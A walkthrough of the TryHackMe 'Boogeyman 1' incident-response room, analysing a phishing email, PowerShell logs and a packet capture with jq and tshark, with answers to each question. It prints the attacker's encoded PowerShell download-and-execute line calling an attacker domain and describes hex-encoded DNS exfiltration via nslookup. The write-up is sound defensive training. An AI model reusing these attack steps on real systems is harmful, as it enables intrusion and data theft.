The room provided a phishing email, endpoint logs, and network traffic to analyze. By studying email headers, parsing JSON logs with JQ, and reconstructing events from packet captures, I uncovered how the threat actor gained initial access, enumerated the host, exfiltrated data, and maintained persistence.

Key learning included inspecting encoded payloads, tracking command execution in logs, and carving exfiltrated content from DNS traffic.

Room link: https://tryhackme.com/room/boogeyman1

   

# Task 1 [Introduction] New threat in town.

 

***Uncover the secrets of the new emerging threat, the Boogeyman.***

In this room, you will be tasked to analyse the Tactics, Techniques, and Procedures (TTPs) executed by a threat group, from obtaining initial access until achieving its objective.

Investigation Platform

Before we proceed, deploy the attached machine by clicking the Start Machine button in the upper-right-hand corner of the task. It may take up to 3–5 minutes to initialise the services.

The machine will start in a split-screen view. In case the VM is not visible, use the blue Show Split View button at the top-right of the page.

### Artifacts

For the investigation proper, you will be provided with the following artifacts:

  - Copy of the phishing email (dump.eml)
  - Powershell Logs from Julianne’s workstation (powershell.json)
  - Packet capture from the same workstation (capture.pcapng)

***Note: The powershell.json file contains JSON-formatted PowerShell logs extracted from its original evtx file via the evtx2json tool.***

You may find these files in the /home/ubuntu/Desktop/artefacts directory.

Tools

The provided VM contains the following tools at your disposal:

  - Thunderbird — a free and open-source cross-platform email client.
  - LNKParse3 — a python package for forensics of a binary file with LNK extension.
  - Wireshark — GUI-based packet analyser.
  - Tshark — CLI-based Wireshark.
  - jq — a lightweight and flexible command-line JSON processor.

To effectively parse and analyse the provided artefacts, you may also utilise built-in command-line tools such as:

  - grep
  - sed
  - awk
  - base64

Now, let’s start hunting the Boogeyman!

Answer the questions below

Let’s hunt that boogeyman!

   

# Task 2 [Email Analysis] Look at that headers!

 

**The Boogeyman is here!**

Julianne, a finance employee working for Quick Logistics LLC, received a follow-up email regarding an unpaid invoice from their business partner, B Packaging Inc. Unbeknownst to her, the attached document was malicious and compromised her workstation.



The security team was able to flag the suspicious execution of the attachment, in addition to the phishing reports received from the other finance department employees, making it seem to be a targeted attack on the finance team. Upon checking the latest trends, the initial TTP used for the malicious attachment is attributed to the new threat group named Boogeyman, known for targeting the logistics sector.

You are tasked to analyse and assess the impact of the compromise.

### Investigation Guide

Given the initial information, we know that the compromise started with a phishing email. Let’s start with analysing the **dump.eml** file located in the artefacts directory. There are two ways to analyse the headers and rebuild the attachment:

  - The manual way uses command-line tools such as cat, grep, base64, and sed. Analyse the contents manually and build the attachment by decoding the string located at the bottom of the file.

`cat *PAYLOAD FILE* | base64 -d > Invoice.zip`

  - An alternative and easier way to do this is to double-click the EML file to open it via Thunderbird. The attachment can be saved and extracted accordingly.



 

 



 



Once the payload from the encrypted archive is extracted, use lnkparse to extract the information inside the payload.

`lnkparse *LNK FILE*`

 

### Answer the questions below

 

**What is the email address used to send the phishing email?**

***Answer: agriffin@bpakcaging.xyz***

Refer to the email header from above.

**What is the email address of the victim?**

***Answer: julianne.westcott@hotmail.com***

**What is the name of the third-party mail relay service used by the attacker based on the DKIM-Signature and List-Unsubscribe headers?**

***Answer: elasticemail***



We can copy the content of the email header and use online tool to analyze the content. Here I used https://mha.azurewebsites.net/



**What is the name of the file inside the encrypted attachment?**

***Answer: Invoice_20230103.lnk***

**What is the password of the encrypted attachment?**

***Answer: Invoice2023!***

**Based on the result of the lnkparse tool, what is the encoded payload found in the Command Line Arguments field?**

***Answer: aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AZgBpAGwAZQBzAC4AYgBwAGEAawBjAGEAZwBpAG4AZwAuAHgAeQB6AC8AdQBwAGQAYQB0AGUAJwApAA==***

Parse the the malicious file using the tool mentioned.

 



Decode the strings in cyberchef.

iex (new-object net.webclient).downloadstring(‘http://files.bpakcaging.xyz/update')

   

# Task 3 [Endpoint Security] Are you sure that’s an invoice?

 

Based on the initial findings, we discovered how the malicious attachment compromised Julianne’s workstation:

  - A PowerShell command was executed.
  - Decoding the payload reveals the starting point of endpoint activities.

### Investigation Guide

With the following discoveries, we should now proceed with analysing the PowerShell logs to uncover the potential impact of the attack:

  - Using the previous findings, we can start our analysis by searching the execution of the initial payload in the PowerShell logs.
  - Since the given data is JSON, we can parse it in CLI using the jq command.
  - Note that some logs are redundant and do not contain any critical information; hence can be ignored.

**JQ Cheatsheet**

**jq** is a lightweight and flexible command-line JSON processor. This tool can be used in conjunction with other text-processing commands.

You may use the following table as a guide in parsing the logs in this task.

Note: You must be familiar with the existing fields in a single log.



You may continue learning this tool via its documentation(https://jqlang.org/manual/).

The following command will filter only the fields in the file which I find helpful in the task.

`jq -r 'keys[]' powershell.json |sort |uniq`



 

### Answer the questions below

 

**What are the domains used by the attacker for file hosting and C2? Provide the domains in alphabetical order. (e.g. a.domain.com,b.domain.com)**

***Answer: cdn.bpakcaging.xyz,files.bpakcaging.xyz***

The command will sort logs based on their timestamps, print values from the selected field of “ScriptBlockText”, sort it and remove duplicated field names.

`cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq`

We see two domains that were being used for hosting a file and acting as a C2 server.



**What is the name of the enumeration tool downloaded by the attacker?**

***Answer: Seatbelt***

`jq -r '.. | strings | scan("(?i)(?:[a-z0-9](?:[a-z0-9-]{0,61}[a-z0-9])?\\.)+(?:[a-z]{2,})")' powershell.json | sort -u`

Also in the results is an indication that a tool popularly used for enumeration was downloaded.

**What is the file accessed by the attacker using the downloaded sq3.exe binary? Provide the full file path with escaped backslashes.**

***Answer: C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite***

Modified the command above but only grepping selected keywords associated with the downloaded binary.

`cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq | grep -e 'sq3.exe' -e 'cd'`

It can be seen that the binary “sq3.exe” was used to download a file named “plum.sqlite”

**What is the software that uses the file in Q3?**

***Answer: Microsoft Sticky Notes***

It can also be observed on the second captured “ScriptBlockText” the location of the software where the files are located.

**What is the name of the exfiltrated file?**

***Answer: protected_data.kdbx**

The command that was used previously resulted in very interesting information such as the method used, extension of the file exfiltrated, tool used, and the encoding used.

`cat powershell.json | jq -s -c 'sort_by(.Timestamp) | .[]'| jq '{ScriptBlockText}'| sort | uniq`

We can find all the answers for the remaining questions in this task from the result of the command.



**What type of file uses the .kdbx file extension?**

***Answer: KeePass***

Searching online would give the type of file that uses the said file extension



**What is the encoding used during the exfiltration attempt of the sensitive file?**

***Answer: hex***

**What is the tool used for exfiltration?**

***Answer: nslookup***

   

# Task 4 [Network Traffic Analysis] They got us. Call the bank immediately!

 

Based on the PowerShell logs investigation, we have seen the full impact of the attack:

  - The threat actor was able to read and exfiltrate two potentially sensitive files.
  - The domains and ports used for the network activity were discovered, including the tool used by the threat actor for exfiltration.

### Investigation Guide

Finally, we can complete the investigation by understanding the network traffic caused by the attack:

  - Utilise the domains and ports discovered from the previous task.
  - All commands executed by the attacker and all command outputs were logged and stored in the packet capture.
  - Follow the streams of the notable commands discovered from PowerShell logs.
  - Based on the PowerShell logs, we can retrieve the contents of the exfiltrated data by understanding how it was encoded and extracted.

 

### Answer the questions below

 

**What software is used by the attacker to host its presumed file/payload server?**

***Answer: Python***

Filter the packet with http and keyword of the URL where the file was hosted.

Follow the TCP stream of the filtered results and we could see in the response section the software used to host the file.

**What HTTP method is used by the C2 for the output of the commands executed by the attacker?**

***Answer: POST***

We discovered the method used in the previous task.

**What is the protocol used during the exfiltration activity?**

***Answer: dns***

We also discovered from the previous task that DNS lookup was used to exfiltrate a file.

**What is the password of the exfiltrated file?**

***Answer: %p9^3!lL^Mz47E2GaT^y***

In the previous task, there was a “ScriptBlockText” where the binary “sq3.exe” was used to access “plum.sqlite”. It can be also be seen that the attacker was able to retrieve records from the table “NOTE” which may also include credentials and one of them could be that password for the exfiltrated file.

Filter in Wireshark packets with HTTP with a keyword containing the binary used to enumerate the SQLite database.

Follow the TCP stream. We see the SQL command used to retrieve the data from the table “NOTE”. Note that stream is at packet 749.

Change stream to the next to 750 to see what happens to the data exfiltrated. We see a bunch of numbers. I copied the characters and pasted them in Cyberchef to be decoded.

I used “Magic” to initially identify what type of characters they were.

Using “From Decimal” as the recipe, the master password for the exfiltrated file is now retrieved.

 

**What is the credit card number stored inside the exfiltrated file?**

***Answer: 4024007128269551***

Using Wireshark at first, I built a display filter that utilizes the info we got from the previous task: nslookup -q=A. This can be done by going to **"Analyze > Display Filter Expressions"**.



Added to the filter is the destination IP of the exfiltrated file.



We see a lot of results with a bunch of characters similar to the previous question. As seen in the command used to exfiltrate the data, the file is being split using a DNS nslookup query.

Wireshark proved to be difficult in parsing the data, so I used “tshark” as suggested to analyze the captured DNS traffic and extract only the encoded data being exfiltrated.

This command will read from the pcap file provided, apply “dns” as a display filter, and display packets that only include the DNS query name field. It will then grep lines that contain a keyword associated with the destination domain.

`tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz"`



We see duplicates and unnecessary strings or characters in the result, so we need to clean the result further.

The command was modified to include additional commands that will split each line by the delimiter “.” and select only the first field or column. It will then perform an inverse match for “files” and “cdn”, meaning that they will not be included in the result. Finally, it will remove any duplicates.

`tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq`



We need to remove empty spaces or newlines, so we use “tr” to make the output in one line of text.

`tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n'`



We can also save the result into a text file.

`tshark -r capture.pcapng  -Y 'dns' -T fields -e dns.qry.name |grep ".bpakcaging.xyz" | cut -f1 -d '.'|grep -v -e "files" -e "cdn" | uniq | tr -d '\\n' > extracted.txt`

Or just copy and paste the strings in CyberChef.

